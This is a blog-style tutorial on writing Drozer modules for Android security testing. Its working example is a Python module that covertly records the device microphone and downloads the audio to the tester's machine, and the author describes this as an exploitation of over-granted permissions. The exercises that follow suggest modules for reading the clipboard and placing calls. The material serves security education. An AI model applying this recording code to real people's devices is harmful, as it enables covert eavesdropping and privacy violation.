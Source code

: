 ```yaml
---
title: "Writing Drozer Modules"
published: 2018-05-13T17:10:13+05:30
status: "published"
---
```


This post is a result of my experimentation with Drozer. Drozer is a security testing framework for Android, developed by MWR Labs. According the Drozer's official [documentation](https://labs.f-secure.com/assets/BlogFiles/mwri-drozer-user-guide-2015-03-23.pdf):

> Drozer allows you to assume the role of an Android app and interact with other apps. It can do anything that an
installed application can do, such as making use of Android's Inter-Process Communication (IPC) mechanism and
interact with the underlying operating system.


Drozer modules are written in Python. The module performs operations on an Android device with the help of an agent app installed on the device. The agent app, by default, has permission to use the internet connection only. This permission is required so that the agent can open a ServerSocket on port 31415 (default). The agent will listen for the incoming connections on this port. The console will connect to the agent on this port.


Drozer modules are inherited Python classes. The parent class is defined in [drozer.modules.Module](https://github.com/FSecureLABS/drozer/blob/develop/src/drozer/modules/base.py). Drozer console provides commands to create a custom module repository, which is very useful for the local development of modules.

You can read more about the structure of a Drozer module [here](https://github.com/FSecureLABS/drozer/wiki/Writing-a-Module).

I will explain all the critical parts of a Drozer module with the help of a sample module. I will be implementing a module to record and save the sound from the inbuilt mic of an Android device.

I initialized a new module repository using the Drozer console using the following command.

```text
dz> module repository create custom
Initialised repository at custom.
```

You will see a new directory `custom` in your current directory after executing above command. Navigate to this directory and create a new folder with any name. I prefer to name this folder same as my module name. In this folder, create a file `__init__.py`. Drozer identifies the folder as a module directory if `__init__.py` is present in the directory. Now you can implement your module in this directory.

To begin implementing our module, create a new file `record.py` in the module directory. Drozer has many different utility classes, which we can use to simplify our implementation. To use these utility classes ([mixins](https://github.com/FSecureLABS/drozer/wiki/Using-mixins)), our module class must extend _mixins_ using Python's multiple inheritance feature.

We first need to import all the required mixins. The mixins are stored in `modules.common` package in the Drozer source tree. After importing mixins and extending our class, the code will look like this. You can also import any other standard Python module here.

```python
from drozer.modules import common, Module
import os, subprocess, time

class Record(Module, common.Shell, common.FileSystem, common.ClassLoader):
```

Now we will set up the metadata for our module. This information will help Drozer to organize and list our module correctly. We can define the name, description, author, date, license, path, permissions, and examples. Most of the available options are self-explanatory. But _path_ and _permissions_ require some explanation.

The _path_ variable defined here is an array that contains the values for the namespace of the module. Drozer supports separate namespaces for each module. We can combine similar modules in the same namespace using this feature.

The _permissions_ array variable contains all the permissions that this module will require for proper functioning. For example, our module will need permission to record audio on the device to work correctly. So we define this permission in the permissions array. The agent app on the device is required to have this permission. Otherwise, our module will throw an error.

The following snippet shows the metadata section of our module.

```text
name = "Record sound from the inbuilt mic of an Android device."
description = "Record sound from the inbuilt mic of an Android device. The default save format is 3GPP. Relies on the agent having the RECORD_AUDIO permission."
examples = """
dz> run custom.record.record
Setting up recorder configuration...
Recording started
Press any key to stop recording

Recording stopped...downloading recording
Screenshot captured. Saved at location /home/yash/work/drozer/1524201166.3gp
"""
author: "Yash Agarwal"
date: "2018-04-14"
license = "BSD (3 clause)"
path = ["custom", "record"]
permissions = ["android.permission.RECORD_AUDIO", "com.mwr.dz.permissions.GET_CONTEXT"]
```

Now we can start implementing the heart of our module, the `execute()` function. This function will be invoked by Drozer when the module is run. Every action that the module is expected to perform should be implemented in this method.

The implementation of `execute()` method is slightly tricky and requires an understanding of different classes and methods provided by the Android API. As we are writing a module to record sound, we will look into the documentation of [MediaRecorder](https://developer.android.com/guide/topics/media/mediarecorder.html) class. Before reading further, go through the documentation about the use of reflection API in Drozer [here](https://github.com/FSecureLABS/drozer/wiki/Using-Reflection).

The `execute()` function is given below.

```python
def execute(self, arguments):
    # unique file names
    filename = str(int(time.time())) + ".3gp"

    # current working directory of Drozer console
    cwd = self.workingDir()

    # Magic of Reflection API !!!
    recorder = self.new("android.media.MediaRecorder")
    AudioSource = self.klass("android.media.MediaRecorder$AudioSource")
    OutputFormat = self.klass("android.media.MediaRecorder$OutputFormat")
    AudioEncoder = self.klass("android.media.MediaRecorder$AudioEncoder")

    recorder.setAudioSource(AudioSource.MIC)
    recorder.setOutputFormat(OutputFormat.THREE_GPP)
    recorder.setAudioEncoder(AudioEncoder.AMR_NB)
    recorder.setOutputFile("%s/recording.3gp" % cwd)
    recorder.prepare()

    self.stdout.write("Recording started\n")
    recorder.start()
    raw_input("Press any key to stop recording\n")
    recorder.stop()
    self.stdout.write("Recording stopped...\n")
    recorder.reset()
    recorder.release()

    # Download file from device to PC
    length = self.downloadFile("%s/recording.3gp" % cwd, filename)

    if length != None:
        self.stdout.write("Recording saved\n")

    else:
        self.stderr.write("Recording could not be fetched from the device.\n")
```

I followed the sample use case given on [this](https://developer.android.com/reference/android/media/MediaRecorder.html) page, to instantiate and use the _MediaRecorder_ object.

After the recording is finished, we want to save this recorded media file to our computer. Drozer provides a method, [downloadFile](https://github.com/FSecureLABS/drozer/blob/c92d74024c653b6dc7de3378a24e51d276ae2c62/src/drozer/modules/common/file_system.py) exactly for this purpose. This method returns the length of the data downloaded on success and `None` otherwise. We can use this information to test the success or failure of the fetching of the recording.

That's all. We have successfully implemented a Drozer module which can record the sound on an Android device without the knowledge of the user. Do you smell something fishy here? The whole idea here depends on that particular `android.permission.RECORD_AUDIO` permission that our agent app had. It allowed our module to record without _user consent_ (actually, the user gave her consent unknowingly while installing agent app). Many apps nowadays ask for arbitrarily random permissions. Those permissions might not be related to the functionality of the app in any way, but because there is no method to install apps without granting these permissions, the users grant all permissions to these apps. That can be exploited very easily. This tutorial tried to show one of such exploitations.

Here are some exercises that you should try if you want to learn more about Drozer module development.

- A module to initiate a call on a device.
- A module to get the clipboard values on a device
- Try finding a public exploit on Android forums such as XDA and implement that exploit as a Drozer module.

Slightly tougher one.

- A module to terminate a call without user intervention (I do not know if it is possible to do this programmatically. If you implement this successfully, do let me know in the comments section.)


Thanks for reading. Cheers :)

